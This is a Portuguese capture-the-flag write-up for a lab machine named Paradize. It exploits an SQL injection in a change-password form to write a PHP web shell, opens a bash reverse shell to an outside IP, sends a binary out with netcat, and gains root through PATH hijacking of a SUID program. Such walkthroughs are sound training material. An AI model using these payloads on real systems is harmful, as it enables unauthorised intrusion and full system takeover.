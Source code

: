 ```yaml
---
title: 'Paradize Writeup'
date: '2024-11-30'
tags: ['SQLI', 'Linux']
draft: false
summary: 'Na maquina paradize precisamos explorar um SQL injection para conseguirmos subir uma webshell e explorar uma falha de path hijacking.'
images: ['/static/images/paradize-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/paradize-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Paradize

---

## **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2e:46:3f:4e:29:18:65:c6:83:44:02:99:72:92:cc:84 (ECDSA)
|_  256 60:fc:6f:94:db:f1:72:13:7b:9f:51:4f:88:5c:1e:93 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://paradize.hc
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Somente as portas 22 (SSH) e 80 (HTTP) estão abertas.

---

## **Enumeration**

`http://172.16.7.123`

![paradize](/static/images/paradize-writeup-images/image.png)

`sudo vim /etc/hosts`

![paradize 1](/static/images/paradize-writeup-images/image1.png)

Acessando a aplicação

`http://paradize.hc`

![paradize 2](/static/images/paradize-writeup-images/image2.png)

Registrando um novo usuário

![paradize 3](/static/images/paradize-writeup-images/image3.png)

Aparentemente o campo de login/register não são vulneráveis a SQL Injection (Aspas simples não funcionou).

Após logarmos, temos uma funcionalidade de ‘Change Passord’.

![paradize 4](/static/images/paradize-writeup-images/image4.png)

Ao passar uma aspas simples, a aplicação retorna um erro do banco de dados, indicando um possível SQL Injection

![paradize 5](/static/images/paradize-writeup-images/image5.png)

![paradize 6](/static/images/paradize-writeup-images/image6.png)

Capturei a requisição no Burp para facilitar a exploração.

O próximo passo é explorar o SQL Injection, começamos enumerando o numero de colunas presente no banco de dados.

`' UNION SELECT 1 #`

![paradize 7](/static/images/paradize-writeup-images/image7.png)

Existem 3 colunas nesse banco de dados, pois a aplicação não exibiu um erro.

`' UNION SELECT 1,2,3 #`

![paradize 8](/static/images/paradize-writeup-images/image8.png)

O próximo passo é utilizar o SQL Injection pra injetar uma web-shell em um arquivo com a função `into outfile` do MySQL.

Para identificar um diretório com permissões de escrita, podemos utilizar o modo `recursion` do `ffuf`

### Fuzzing

`ffuf -u http://paradize.hc/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -recursion`

![paradize 9](/static/images/paradize-writeup-images/image9.png)

`'union select 1,"<?php system($_GET['cmd']); ?>",3 into outfile "/var/www/html/public/images/uploads/shell.php"-- -`

![paradize 10](/static/images/paradize-writeup-images/image10.png)

![paradize 11](/static/images/paradize-writeup-images/image11.png)

---

## FootHold

`bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

OBS: Lembre de encodar a payload.

![paradize 12](/static/images/paradize-writeup-images/image12.png)

`nc -lnvp 1337`

![paradize 13](/static/images/paradize-writeup-images/image13.png)

---

## Privillege Escalation

`find / -perm -u=s 2>/dev/null`

![paradize 14](/static/images/paradize-writeup-images/image14.png)

Executando o binário pra ver o que ele faz

![paradize 15](/static/images/paradize-writeup-images/image15.png)

Transferindo ele pra nossa maquina, para analisar melhor

```jsx
#kali
nc -lnvp 8000 >enrollment
#alvo
nc 10.0.31.150 8000 < /usr/sbin/enrollment
```

![paradize 16](/static/images/paradize-writeup-images/image16.png)

Analisando o binário no **Ghidra** , podemos ver que ele chama o comando `system` pra executar o programa `figlet` .

![paradize 17](/static/images/paradize-writeup-images/image17.png)

No Linux, os arquivos são executados em uma ordem especifica, sabendo disso podemos criar um arquivo chamado `figlet` malicioso que se será executado antes pelo binário `enrollment` utilizando a técnica de **Path Hijacking**.

```bash
www-data@ip-172-16-7-123:/tmp$ echo '#!/bin/bash' > figlet
www-data@ip-172-16-7-123:/tmp$ echo 'chmod u+s /bin/bash' >> figlet
www-data@ip-172-16-7-123:/tmp$ chmod 777 figlet
www-data@ip-172-16-7-123:/tmp$ export PATH=$(pwd):$PATH
www-data@ip-172-16-7-123:/tmp$ /usr/sbin/enrollment

```

![paradize 18](/static/images/paradize-writeup-images/image18.png)

---

## Proof

![paradize 19](/static/images/paradize-writeup-images/image19.png)
